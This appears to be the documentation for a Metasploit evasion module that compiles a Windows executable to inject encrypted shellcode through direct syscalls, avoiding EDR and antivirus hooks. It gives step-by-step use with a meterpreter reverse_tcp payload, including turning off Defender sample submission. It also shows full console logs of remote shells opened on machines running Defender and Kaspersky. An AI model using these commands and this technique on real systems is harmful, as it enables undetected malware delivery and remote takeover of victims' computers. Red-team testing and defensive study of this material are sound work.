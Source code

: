 ## Description
This module lets you create a Windows executable that injects a specific payload/shellcode in memory bypassing EDR/AVs Windows API hooking technique via direct syscalls achieved by Mingw's inline assembly.
Mingw needs (x86_64) to be installed on the system and in the PATH enviroment variable.

The technique used is based on Sorting by System Call Address, by enumerating all Zw* stubs in the EAT of NTDLL.dll and then sorting them by address, it still works even if syscall indices were overwritten by AVs.
[For more details](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)

## Verification Steps
steps using a meterpreter/reverse_tcp payload on a 64-bits target:

1. `use evasion/windows/syscall_inject`
1. `set LHOST <local IP>`
1. `set payload windows/x64/meterpreter/reverse_tcp`
1. `handler -p windows/x64/meterpreter/reverse_tcp -H <local IP> -P <local port>`
1. `run`
1. Make sure that "Automatic Sample Submission" is off in Windows Defender
1. Copy the generated executable file to a specified location (e.g. target PC)  
1. Run it
1. Verify that you got a session without being blocked by Antimalware

## Options

### CIPHER
Encryption algorithm used to encrypt the payload. Available ones (CHACHA, RC4)

### FILENAME
Filename for the generated evasive file file. The default is random.

### JUNK
Adding random data such as names, emails and GUIDs to the final executable

### SLEEP
Specify how much the program sleeps in milliseconds prior to execute the shellcode's thread (NtCreateThread).
NOTE: the longer the better chance to avoid being detected.

## Advanced

### OptLevel
Optimization level passed to the compiler (Mingw)

## Scenarios
### Windows 10 (x64) version 20H2 with Defender
```
msf6 > use evasion/windows/syscall_inject 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/syscall_inject) > set SLEEP 10000
SLEEP => 10000
msf6 evasion(windows/syscall_inject) > set LHOST 192.168.1.104
LHOST => 192.168.1.104
msf6 evasion(windows/syscall_inject) > run

[+] pYlCSOAeW.exe stored at /Users/user/.msf4/local/pYlCSOAeW.exe
msf6 evasion(windows/syscall_inject) > cp  /Users/user/.msf4/local/pYlCSOAeW.exe ~
[*] exec: cp  /Users/user/.msf4/local/pYlCSOAeW.exe ~

msf6 evasion(windows/syscall_inject) > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.104 -P 4444
[*] Payload handler running as background job 1.

[*] Started reverse TCP handler on 192.168.1.104:4444 
msf6 evasion(windows/syscall_inject) > [*] Sending stage (200262 bytes) to 192.168.1.103
[*] Meterpreter session 3 opened (192.168.1.104:4444 -> 192.168.1.103:53007) at 2021-08-01 17:08:43 +0300

msf6 evasion(windows/syscall_inject) > sessions -i 3 
[*] Starting interaction with 3...

meterpreter > sysinfo 
Computer        : DESKTOP-822593D
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.103 - Meterpreter session 3 closed.  Reason: User exit
```
### Windows server 2012 (x64) with Kaspersky 10.2.6.3733
```
msf6 > use evasion/windows/syscall_inject
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/syscall_inject) > set payload windows/x64/meterpreter_bind_tcp 
payload => windows/x64/meterpreter_bind_tcp
msf6 evasion(windows/syscall_inject) > set RHOST 192.168.225.76
RHOST => 192.168.225.76
msf6 evasion(windows/syscall_inject) > set LPORT 10156
LPORT => 10156
msf6 evasion(windows/syscall_inject) > set cipher rc4
cipher => rc4
msf6 evasion(windows/syscall_inject) > run

[+] ShP.exe stored at /Users/medicus/.msf4/local/ShP.exe
msf6 evasion(windows/syscall_inject) > cp /Users/medicus/.msf4/local/ShP.exe ~
[*] exec: cp /Users/medicus/.msf4/local/ShP.exe ~

msf6 evasion(windows/syscall_inject) > handler -p windows/x64/meterpreter_bind_tcp -H 192.168.225.76 -P 10156
[*] Payload handler running as background job 0.

[*] Started bind TCP handler against 192.168.225.76:10156
msf6 evasion(windows/syscall_inject) > [*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.225.76:10156) at 2021-08-01 17:32:05 +0300

msf6 evasion(windows/syscall_inject) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : LABCE28
OS              : Windows 2012 (6.2 Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 386
Meterpreter     : x64/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.225.76 - Meterpreter session 1 closed.  Reason: User exit
```

